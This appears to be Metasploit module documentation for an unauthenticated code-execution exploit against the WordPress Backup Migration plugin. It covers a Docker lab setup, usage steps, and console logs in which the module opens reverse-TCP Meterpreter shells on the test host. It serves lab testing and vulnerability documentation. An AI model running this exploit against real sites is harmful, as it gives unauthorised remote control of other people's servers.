 ## Vulnerable Application

This module exploits an unauth RCE in the WordPress plugin: Backup Migration (<= 1.3.7).  The vulnerability is
exploitable through the Content-Dir header which is sent to the /wp-content/plugins/backup-backup/includes/backup-heart.php endpoint.

The vuln makes use of a neat technique called PHP Filter Chaining which allows an attacker to prepend
bytes to a string by continuously chaining character encoding conversion. This allows an attacker to prepend
a PHP payload to a string which gets evaluated by a require statement, which results in command execution.

## Setup

Spin up a Wordpress instance by running `docker-compose up` in the same directory as the `docker-compose.yml` file below:

```
version: "3"
  # Defines which compose version to use
services:
  # Services line define which Docker images to run. In this case, it will be MySQL server and WordPress image.
  db:
    image: mysql:5.7
    # image: mysql:5.7 indicates the MySQL database container image from Docker Hub used in this installation.
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
      # Previous four lines define the main variables needed for the MySQL container to work: database, database username, database user password, and the MySQL root password.
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    # Restart line controls the restart mode, meaning if the container stops running for any reason, it will restart the process immediately.
    ports:
      - "5555:80"
      # The previous line defines the port that the WordPress container will use. After successful installation, the full path will look like this: http://localhost:5555
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
  # Similar to MySQL image variables, the last four lines define the main variables needed for the WordPress container to work properly with the MySQL container.
    volumes:
      ["./:/var/www/html"]
volumes:
  mysql: {}
```

Download the vulnerable Backup Migration plugin: `https://downloads.wordpress.org/plugin/backup-backup.1.3.7.zip`.
Navigate to `http://localhost:5555` and you'll be redirected and asked to setup the WordPress site. This includes
setting a username, password, email address for the admin user etc. Once the setup is complete login as the newly created
admin user and via the options on the left side of the screen navigate to the `Plugins` and select `Add New`. Upload the
`backup-backup.1.3.7.zip` file. You should now see `Backup Migration` in the list of Plugins, select `Activate` on the
plugin. You should now have a vulnerable instance running.

## Options
No options

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress application.

## Scenarios
### Backup Migration Plugin version: 1.3.7 (Containerized WordPress Version 6.5.3)

Using `php/meterpreter/reverse_tcp`:

```
msf exploit(multi/http/wp_backup_migration_php_filter) > set rhosts 192.168.1.36
rhosts => 192.168.1.36
msf exploit(multi/http/wp_backup_migration_php_filter) > set rport 5555
rport => 5555

msf exploit(multi/http/wp_backup_migration_php_filter) > options

Module options (exploit/multi/http/wp_backup_migration_php_filter):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.36     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      5555             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory


msf exploit(multi/http/wp_backup_migration_php_filter) > exploit 

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Sending the payload, please wait...
[*] Sending stage (39927 bytes) to 172.18.0.3
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 172.18.0.3:50136) at 2024-08-24 17:04:19 +0200

meterpreter > sysinfo 
Computer    : e409ace0b2a9
OS          : Linux e409ace0b2a9 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > getuid 
Server username: www-data
meterpreter >
```

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf exploit(multi/http/wp_backup_migration_php_filter) > exploit 

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Sending the payload, please wait...
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 8 opened (192.168.1.36:4444 -> 172.18.0.3:48014) at 2024-08-24 17:06:58 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 12.5 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: www-data
meterpreter > 
```
